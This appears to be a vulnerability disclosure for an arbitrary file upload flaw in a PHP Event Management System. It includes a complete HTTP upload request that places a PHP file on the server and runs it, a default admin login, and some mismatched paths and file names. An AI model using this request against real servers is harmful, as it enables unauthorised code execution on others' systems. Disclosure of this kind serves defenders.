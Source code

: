 # Event Management System v1.0 by Nikhil_B has arbitrary code execution (RCE)

BUG_Author: Gsir

vendors: https://www.sourcecodester.com/php/15238/event-management-system-project-php-source-code.html

The program is built using the xmapp-php8.1 version

Login account: ndbhalerao91@gmail.com/admin (Super Admin account)

Vulnerability url: ip/tour/admin/operations/travellers.php

Loophole location: Event Management System's update_img.php file exists arbitrary file upload (RCE)

Request package for file upload：

```sql
POST /Royal_Event/update_image.php?id=2 HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.1.19/Royal_Event/update_image.php?id=2%27
Cookie: PHPSESSID=0pba7l89o53c7tini68b77ci0m
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------16095109891890
Content-Length: 435

-----------------------------16095109891890
Content-Disposition: form-data; name="productName"

NikhilÂ Bhalerao
-----------------------------16095109891890
Content-Disposition: form-data; name="productimage1"; filename="shell.php"
Content-Type: application/octet-stream

JFJF
<?php phpinfo();?>
-----------------------------16095109891890
Content-Disposition: form-data; name="submit"


-----------------------------16095109891890--
```

The files will be uploaded to this directory \tour\admin\img
![image](https://user-images.githubusercontent.com/54017627/183230044-35d023ab-de23-4327-9e6c-2f20b057a503.png)


We visited the directory of the file in the browser and found that the code had been executed
![image](https://user-images.githubusercontent.com/54017627/183230035-a8eaf770-966f-4d07-8f8a-a179a94c858c.png)
